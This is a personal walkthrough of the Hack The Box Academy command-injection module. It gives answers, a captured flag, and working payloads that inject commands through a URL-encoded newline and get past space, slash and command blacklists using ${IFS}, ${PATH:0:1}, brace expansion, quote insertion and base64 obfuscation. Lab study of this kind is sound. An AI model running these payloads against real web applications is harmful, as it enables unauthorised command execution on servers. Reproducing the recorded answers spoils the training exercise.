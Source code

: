 # Command Injections
* Source: [Hack the Box: Academy](https://academy.hackthebox.com/)
* Module: Command Injections
* Tier: II
* Difficulty: Medium
* Category: Offensive
* Time estimate: 6 hours
* Date: 12-05-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Detection
### Question:
![](./attachments/Pasted%20image%2020220512181746.png)

*Hint: Use Firefox or Chrome. It should start with "Please"*

![](./attachments/Pasted%20image%2020220513102509.png)

**Answer:** `Please match the requested format.`

---
## Injecting Commands
### Question:
![](./attachments/Pasted%20image%2020220512181825.png)

*Hints: You can either user burp or click `CTRL + U` in Firefox to show the source code*

![](./attachments/Pasted%20image%2020220513104047.png)

**Answer:** `17`

---
## Other Injection Operators
### Question:
![](./attachments/Pasted%20image%2020220512181939.png)

![](./attachments/Pasted%20image%2020220513104519.png)

**Answer:** `|`

---
## Identifying Filters
### Question:
![](./attachments/Pasted%20image%2020220512182009.png)

*Hint: Just see which injected characters does not cause a denied request. No need to reach command execution yet, as there are other protections in place.*

New Line character `\n` encoded as URL `%0a` is not blacklisted.

Payload: `%0a`

![](./attachments/Pasted%20image%2020220513121755.png)

**Answer:** `new-line`

---
## Bypassing Space Filters
### Question:
![](./attachments/Pasted%20image%2020220512182054.png)

*Hint: The size column (in bytes) is between the owner 'www-data' and the modification date.*

Working payloads for bypassing blacklisted space, ` `:

Payload 1: `%0a{ls,-la}`

Payload 2: `%0A%09ls%09-lah`

Payload 3: `%0A${IFS}ls${IFS}-la`

![](./attachments/Pasted%20image%2020220513121427.png)

**Answer:** `1813`

---
## Bypassing Other Blacklisted Characters
### Question:
![](./attachments/Pasted%20image%2020220512182139.png)

*Hint: Use the PATH environment variable along with the injection character you identified earlier*

Working payloads for bypassing blacklisted `/`:

Payload 1: `%0a{ls,${PATH:0:1}home}`

Payload 2: `%0A%09ls%09${PATH:0:1}home`

Payload 3: `%0A${IFS}ls${IFS}${PATH:0:1}home`

![](./attachments/Pasted%20image%2020220513122943.png)

**Answer:** `1nj3c70r`

---
## Bypassing Blacklisted Commands
### Question:
![](./attachments/Pasted%20image%2020220512182222.png)

*Hint: Use character insertion to bypass the blacklist on the 'cat' command.*

First, we need to locate 'flag.txt'

Payload: `%0a{ls,${PATH:0:1}home${PATH:0:1}1nj3c70r}`

![](./attachments/Pasted%20image%2020220513125949.png)

We can bypass the blacklisted `cat` command by adding a two `'`s. 

Payload: `%0a{c'a't,${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}`

![](./attachments/Pasted%20image%2020220513125735.png)

**Answer:** `HTB{b451c_f1l73r5_w0n7_570p_m3}`

---
## Advanced Command Obfuscation
### Question:
![](./attachments/Pasted%20image%2020220512182300.png)

*Hint: Don't forget to bypass any filtered characters*

Test payload not working: 
`%0Ab'a'sh<<<$({ba's'e64,-'d'<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=})`

# TO BE CONTINUED...


**Answer:** ``

---
## Skills Assessment
### Question:
![](./attachments/Pasted%20image%2020220512182411.png)

*Hint: It is always easier to inject our command in an input going at the end of the command, rather than in the middle of it, though both are possible.*



**Answer:** ``

---
**Tags:** [[Hack The Box Academy]]